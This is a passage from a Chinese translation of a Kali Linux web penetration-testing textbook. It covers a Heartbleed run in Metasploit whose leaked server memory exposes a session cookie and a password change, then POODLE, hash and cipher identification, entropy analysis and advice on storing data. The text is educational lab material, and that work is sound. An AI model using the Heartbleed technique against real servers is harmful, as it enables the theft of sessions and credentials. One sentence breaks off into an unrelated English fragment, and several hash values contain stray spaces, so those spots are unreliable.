

然而，这里没有提取到相关信息。出了什么问题？

事实上，模块已从服务器内存中提取了信息，但还有更多选项需要设置。你可以使用 show advanced 查看 Metasploit 模块的高级选项。要查看获取的信息，将 VERBOSE 选项设置为 true 并再次运行：

```
set VERBOSE true
run
```

现在我们捕获了一些信息：

```
[*] 10.7.7.8:8443          - Sending Heartbeat...
[+] 10.7.7.8:8443          - Heartbeat response, 18819 bytes
[+] 10.7.7.8:8443          - Heartbeat response with leak
[*] 10.7.7.8:8443          - Printable info leaked:
......Za.Oe......(Dg.B.+....*K5..6.qD.f......"!.9.8..........5..........
2......E.D..../.A...................on/x-www-form-urlencoded..User-Agent
: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/605.1 (KHTML, like Gecko) Version/11.0 Safari/60
5.1 Debian/buildd-unstable (3.26.4-1) Epiphany/3.26.4..Origin: https://10.7.7.8:8443..DNT: 1..
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8..Accept-Encoding: gzip
, deflate..Accept-Language: en-us, en;q=0.90..Connection: Keep-Alive..Cookie: PHPSESSID=87ee61
c6d5ae416d06bc793cf2e19519; security_level=0..Content-Length: 74......p....r.l..04l....b....
...password_curr=newpassword&password_new=bug&password_conf=bug&action=change......ym..ky.<3.
..\Z......?.X....W.[.9.3.$."!.......]................L.J
..............................................................repe
ated 15319 times ............................................................
..................................................................@.
.. repeated 2165 times ............................................................
........................................................................
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

如果你分析结果，会发现，在这种情况下，服务器内存中有一个密码更改请求，你可以看到之前的密码和当前密码以及用户的会话 cookie。

## POODLE

Padding Oracle On Downgraded Legacy Encryption（POODLE），顾名思义，是利用从 TLS 降级到 SSLv3 过程的填充预言机攻击。

填充预言机攻击需要存在一个预言机，这意味着一种识别数据包填充是否正确的方法。这可能简单到服务器返回填充错误响应。当攻击者更改有效消息的最后一个字节并且服务器以错误响应时发生。当消息被更改且未导致错误时，填充对于该字节的值被接受。结合 IV，这可以揭示密钥流的一个字节，从而可以解密加密文本。让我们记住 IV 需要与数据包一起发送，以便接收方知道如何解密信息。这非常类似于盲 SQL 注入攻击。

为此，攻击者需要在客户端和服务器之间取得中间人位置，并具有使客户端发送恶意探测的机制。最后一个要求可以通过使客户端打开包含执行该工作的 JavaScript 代码的页面来实现。

Kali Linux 不包含开箱即用的 POODLE 利用工具，但 Thomas Patzke 在 GitHub 上有一个概念验证（PoC）：https://github.com/thomaspatzke/POODLEAttack。读者可以将其作为练习来测试此 PoC。

在大多数 Web 应用程序渗透测试中，仅查看 SSLScan、SSLyze 或 Nmap 输出以了解是否允许 SSLv3，从而知道服务器易受 POODLE 攻击就足够了；并且不需要进一步的测试来证明这一事实或说服你的客户禁用该协议，该协议已被取代近 20 年，最近被宣布为过时。

尽管 POODLE 是 TLS 等加密协议的严重漏洞，但在现实场景中执行它的复杂性使得攻击者更有可能使用诸如 SSL Stripping（https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf）等技术来强制受害者通过未加密的协议浏览。


## 自定义加密协议

作为渗透测试人员，遇到开发人员对标准加密协议进行自定义实现或尝试创建自己的自定义算法的应用程序并不罕见。在这种情况下，你需要特别注意这些模块，因为它们可能包含多个缺陷，如果发布到生产环境中可能会造成灾难性后果。

如前所述，加密算法是由信息安全专家和密码学专业数学家通过多年的实验和测试创建的。对于单个开发人员或小型团队来说，设计一个密码学上安全的算法或改进 OpenSSL 或编程语言的加密库等经过严格测试的实现是极不可能的。


## 识别加密和哈希信息

当遇到自定义加密实现或无法识别为明文的数据时，第一步是定义此类数据所提交的处理过程。如果源代码可以方便获取，此任务相当直接。在更可能的情况下代码不可用时，需要以多种方式分析数据。

## 哈希算法

如果处理结果的长度始终相同而不管提供的数据量大小，你可能面对的是一个哈希函数。为了确定该函数，可以使用结果值的长度：

| 函数 | 长度 | 示例，hash ("Web Penetration Testing with Kali Linux") |
|---|---|---|
| MD5 | 16 bytes | fbdcd5041c96ddbd82224270b57f11fc |
| SHA-1 | 20 bytes | e8dd62289bcf f206905cf269c06692ef7c6938a0 |
| SHA-2 (256) | 32 bytes | dbb5195ef411019954650b6805bf66efc5fa5fef4f80a5f4afda702154ee07d3 |
| SHA-2 (512) | 64 bytes | 6f0b5c34cbd9d66132b7d3a4484f1a9af02965904de38e3e3c4e66676a9 48f20bd0b5b3ebcac9fdbd2f89b76cfde5b0a0ad9c06bccbc662be420b877c080e8fe |

注意前面的示例如何使用十六进制编码表示每个字节，用两个十六进制数字表示每个字节的值（0-255）。为了说明，MD5 哈希中的 16 个字节为 fb-dc-d5-04-1c-96-dd-bd-82-22-42-70-b5-7f-11-fc。例如，第十一个字节（42）是十进制值 66，即 ASCII 字母 B。

此外，以 base64 编码找到哈希并不罕见。例如，前表中 SHA-512 哈希也可以如下呈现：

```
bwtcNMvZ1mEyt90kSE8amvApZZBN444+PE5mZ2UjyC9C1s+vKyf29L4m3bP31sKCtnAa8y8ZivkILh3wIDo/g==
```


Base64 是一种编码技术，用于仅使用可打印 ASCII 字符集来表示二进制数据，其中 base64 编码的字节代表原始字节的 6 位，因此 3 个字节（24 位）可以用 4 个 ASCII 可打印字节在 base64 中表示。

## hash-identifier

Kali Linux 包含一个名为 hash-identifier 的工具，它有一长串哈希模式，非常有用以确定所涉及的哈希类型：

```
root@kali:~# hash-identifier
######################################################################
#                                                                    #
#                                                                    #
#                                                                    #
#                                                                    #
#                                                                    #
#                                                                    #
######################################################################
HASH: 6f0b5c34cbd9d66132b7d3a4484f1a9af02965904de38e3e3c4e6667d948f20bd0b5b3ebcac9fdbd2f89b76cfde5b0a0ad9c06bccbc662be420b877c080e8fe
Possible Hashes:
[+] SHA-512
[+] Whirlpool
Least Possible Hashes:
[+] SHA-512(HMAC)
[+] Whirlpool(HMAC)
HASH: e76a46033c5a60454c11bddd6c980668
Possible Hashes:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4({$pass})). (strtolower($username))
Least Possible Hashes:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
```

## 频率分析

判断一组数据是否被加密、编码或混淆的一个非常有用的方法是分析每个字符在数据中重复的频率。在明文消息中，例如字母，ASCII 字符在字母数字范围内（32 到 126）的频率会远高于斜杠或不可打印字符，例如转义（27）或删除（127）键。

另一方面，人们会期望加密文件对 0 到 255 的每个字符都有非常相似的频率。

这可以通过准备一组文件进行比较来测试。让我们将一个明文文件作为基准，与该文件的另外两个版本进行比较：一个混淆的和一个加密的。首先创建一个明文文件。使用 dmesg 将内核消息发送到文件：

```
dmesg > /tmp/clear_text.txt
```



你也可以应用一种称为**旋转**的混淆技术，它以循环方式用另一个字母替换一个字母。我们将使用 *ROT13*，在字母表中旋转 13 个位置（即 a 将变为 n，b 将变为 o，以此类推）。这可以通过编程完成，也可以使用 http://www.rot13.com/ 等网站完成：



接下来，使用 OpenSSL 命令行实用程序以 AES-256 算法和 CBC 模式加密明文文件：

```
openssl aes-256-cbc -a -salt -in /tmp/clear_text.txt -out
/tmp/encrypted_text.txt
```



正如你所见，OpenSSL 的输出是 base64 编码的。在分析结果时你需要考虑到这一点。

现在，如何对这些文件执行频率分析？我们将使用 Python 和 Matplotlib（https://matplotlib.org/）库，预装在 Kali Linux 中，以图形方式表示每个文件的字符频率。以下脚本接受两个命令行参数，一个文件名和一个指示文件是否 base64 编码的指示符（1 或 0），读取该文件，并在必要时对其进行解码。然后，它计算 ASCII 空间（0-255）中每个字符的重复次数并绘制字符计数图：

```
import matplotlib.pyplot as plt
import sys
import base64

if (len(sys.argv))<2:
```

```
print "Usage file_histogram.py <source_file> [1|0]"

print "Reading " + sys.argv[1] + "..."
s_file=open(sys.argv[1])

if sys.argv[2] == "1":
    text=base64.b64decode(s_file.read())
else:
    text=s_file.read()

chars=[0]*256
for line in text:
    for c in line:
        chars[ord(c)] = chars[ord(c)]+1

s_file.close()
p=plt.plot(chars)
plt.show()
```

比较明文（左）和 ROT13（右）文件的频率，你会看到没有太大区别——所有字符都集中在可打印范围内：



另一方面，查看加密文件的图时，分布要混乱得多：



## 熵分析

帮助区分加密信息与明文或编码的加密信息的决定性特征是在字符级别数据中发现的随机性。熵是数据集随机性的统计度量。

在网络通信中，文件存储基于由八位组成的字节使用，单个字符的最大熵为八。这意味着在样本中，这样的字节的八个位被使用相同的次数。熵低于六可能表明样本未被加密，而是被混淆或编码，或者使用的加密算法可能容易受到密码分析的攻击。

在 Kali Linux 中，你可以使用 ent 来计算文件的熵。它未预安装，但可以在 apt 仓库中找到：

```
apt-get update
apt-get install ent
```

作为概念验证，让我们对一个明文样本执行 ent，例如 dmesg（内核消息缓冲区）的输出，其中包含大量文本、数字和符号：

```
dmesg > /tmp/in
ent /tmp/in
```



接下来，让我们加密相同的信息并计算熵。在此示例中，我们将使用 CBC 模式的 Blowfish：

```
openssl bf-cbc -a -salt -in /tmp/in -out /tmp/test2.enc
ent /tmp/test2.enc
```



熵增加了，但没有高到加密样本的程度。这可能是由于样本有限（即仅可打印 ASCII 字符）。让我们使用 Linux 内置的随机数生成器进行最后一次测试：

```
head -c 1M /dev/urandom > /tmp/out
ent /tmp/out
```



理想情况下，强大的加密算法应具有非常接近八的熵值，这将与随机数据无法区分。

## 识别加密算法

一旦我们完成了频率和熵分析并可以确定数据已加密，我们需要识别使用了哪种算法。一种简单的方法是比较多个加密消息的长度；考虑以下示例：

- 如果长度不能始终被八整除，你可能面对的是流密码，其中 RC4 是最受欢迎的
- AES 是一种分组密码，其输出长度始终可被 16 整除（128、192、256 等）
- DES 也是一种分组密码；其输出长度始终可被 8 整除，但不总是可被 16 整除（因为其密钥流为 56 位）


## 敏感数据存储和传输中的常见缺陷

作为一名渗透测试人员，在 Web 应用程序中需要重点关注的重要事项之一就是它们如何存储和传输敏感信息。如果数据以明文形式传输或以这种方式存储，应用程序的所有者可能会面临重大的安全问题。

如果敏感信息，例如密码或信用卡数据，以明文形式存储在数据库中，利用 SQL 注入漏洞或通过其他任何方式获得服务器访问权限的攻击者将能够读取此类信息并直接从中获利。

有时，开发人员会自行实现混淆或加密机制ss of applications must include the secure flag in cookies and the HTTP Strict-Transport-Security (HSTS) header to prevent SSL Strip attacks.

有关 TLS 配置的更多信息可在 https://www.owasp.org/index.php/Transport_Layer_Protection_Cheat_Sheet 找到。

密码绝不能以明文形式存储，使用加密算法来保护它们也是不明智的。相反，应使用单向加盐哈希函数。PBKDF2、bcrypt 和 SHA-512 是推荐的替代方案。不建议使用 MD5，因为现代 GPU 每秒可计算数百万个 MD5 哈希，使得使用高端计算机在数小时或几天内破解任何少于十个字符的密码成为可能。OWASP 在此主题上也有一个有用的备忘单，网址为 https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet。

对于需要可恢复的敏感信息，例如支付信息，应使用强加密算法。AES-256、Blowfish 和 Twofish 是不错的选择。如果可以使用非对称加密，例如 RSA，则应优先选择该方式（https://www.owasp.org/index.php/Cryptographic_Storage_Cheat_Sheet）。

避免使用自定义实现或创建自定义算法。依靠已被使用、测试并多次遭受攻击的方案要好得多。


